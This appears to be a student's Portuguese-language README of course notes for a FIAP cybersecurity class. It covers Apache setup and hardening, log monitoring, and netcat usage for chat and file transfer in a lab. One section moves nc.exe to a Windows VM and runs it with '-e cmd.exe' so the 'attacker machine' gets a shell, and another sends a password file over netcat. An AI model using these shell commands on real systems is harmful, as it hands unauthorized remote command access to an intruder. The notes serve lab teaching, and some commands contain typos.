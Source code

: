 # FIAP-Cyber

#### Resumo colega: https://www.notion.so/flaviovicentin/Cybersecurity-b35d9c73f60249cdb12c28dc66c0d06a

## Resumo de Comandos

### Updates/Installs
apt install update
apt install upgrade
apt install apache2 apache2-utils -y
apt install net-tools

- Iniciar o servidor:
service apache2 start

### Notes CP01

- Entrar no diretório padrão do servidor html:
cd /var/www/html

- Vamos renomear o index.html para copial.html:
mv index.html copia.html

- Gerar a primeira falha de segurança no webservice:
- Vamos criar arquivos na pasta padrão do webservice e ver eles exibidos do lado do cliente:
touch bkp.txt cadastro.php

- criar o index.html, com o editor de texto do Linux – nano, e ver o que acontece com o webservice:
nano index.html

#### RESOLVENDO PROBLEMAS DE SEGURANÇA:

1. OCULTAR AS PASTAS PARA OS CLIENTES:
nano /etc/apache2/apache2.conf

- Remover o INDEXES para não exibir mais as pastas disponíveis para os clientes.

- Restart o webservice apache:
service apache2 restart

- Alterar a configuração do banner no apache:
nano /etc/apache2/conf-enabled/security.conf

- Por padrão o apache vem com o token como o Sistema Operacional (SO) deseja e a assinatura online. 
- Mas por medida de segurança, devemos alterar para o modo de Produção.:
Trocar de "ServerTokens OS" para "ServerTokens Prod" e desligar a assinatura "ServerSignature Off"

- Subir o servidor python na porta 8080
python3 –m http.server 8080

VER LOGs do SERVIDOR APACHE
1. No apache, ele existe o caminho padrão das pastas
cd /var/log/apach2
ls
8. Vamos monitorar o servidor e ver como ele vai agir.
tail –f access.log

### Instalação e Configuração

- Instalar o Netcat:
apt install netcat

- Iniciar um servidor HTTP em Python na porta 8080:
python3 -m http.server 8080

### Comandos Básicos

- Estabelecer uma conexão TCP com um host:
nc -v 192.168.1.10 8080

- Mostrar informações detalhadas sobre as conexões:
OPTIONS / HTTP/1.0
GET / HTTP/1.1

- Mostrar as conexões de rede:
netstat -nltp

### Manter Conexão com o Servidor

- Enviar uma requisição OPTIONS e manter a conexão:
printf "OPTIONS / HTTP/1.0\r\n\r\n" | nc 192.168.1.10 80

- Verificar o IP do webserver em Python:
ip -br -c a

### Chat Simples

- Abrir uma porta para o servidor:
nc -lvp 1234

- Interagir com a porta do servidor:
nc -v 192.168.1.10 1234

### Transferência de Arquivos

- Criar e enviar um arquivo do servidor para o cliente:
echo "P4sswd" > senha.txt
cat senha.txt | nc -lvp 1234
nc -v 192.168.1.10 1234 > passwd.txt

- Exibir o hash MD5 do arquivo:
md5sum senha.txt


### Transferência de Executáveis

- Transferir o arquivo nc.exe para uma máquina Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444


- Abrir uma porta no lado do cliente para executar o nc.exe e conectar à máquina do atacante:
nc.exe -nvlp 4444 -e cmd.exe

Certifique-se de adaptar os endereços IP e portas conforme necessário para sua configuração.

### Comandos

- Criação de chat simples (servidor e cliente precisam estar na mesma rede):
nc -lvp 1234
nc -v 192.168.1.10 1234

- Transferir o nc.exe para uma VM Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444

### Enviar Arquivo entre Três Máquinas

Kali > VM01 > VM02

- No Kali, executar o seguinte comando no arquivo desejado:,
nc -l -p 1234 > video.avi

- Na VM01, receber o arquivo da máquina Kali e disponibilizar para a VM02:
nc -v 192.168.1.10 1234 | nc -l -p 4321




